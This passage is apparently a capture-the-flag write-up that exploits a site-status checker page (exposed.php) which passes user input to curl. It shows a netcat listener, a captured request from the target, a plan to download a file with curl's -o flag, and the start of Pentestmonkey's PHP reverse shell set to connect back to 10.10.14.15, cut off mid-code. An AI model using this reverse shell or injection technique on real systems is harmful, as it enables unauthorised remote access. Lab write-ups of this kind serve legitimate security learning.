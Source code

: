 ### exposed.php

This page allows you to lookup a site and see if it is up or down. For example, it provides with `http://localhost/test.html` and when we click **go**, it seemingly returns the status of the site. Now, lets see if we can lookup our own site and see what we find.
```bash
nc  -lvnp 80
```
When we lookup our IP the site hangs and we see a curl request coming from the target machine:
```bash
listening on [any] 80 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.24] 45476
GET / HTTP/1.1
Host: 10.10.14.15
User-Agent: curl/7.47.0
Accept: */*
```
From this we can determine that the server is using user supplied input to make a curl request **AS** the server. Knowing this, lets see if we can exploit this to gain a shell. There are a couple of things I want to try first:
- Use delimiter to break out of the curl request
- Use `curl` `-o` flag to download a file to the server
- Try and read internal files like `/etc/passwd`

## Foothold

Using a delimiter to break out of the curl request returns an error that tells us we cannot use that character. It seems like there is some kind of filter stopping us from using certain characters. So lets try the `-o` flag to download a revshell to the server. (Using Pentestmonkey's PHP reverse shell)

```bash
nano shell.php
```
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.15';
$port = 80;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
```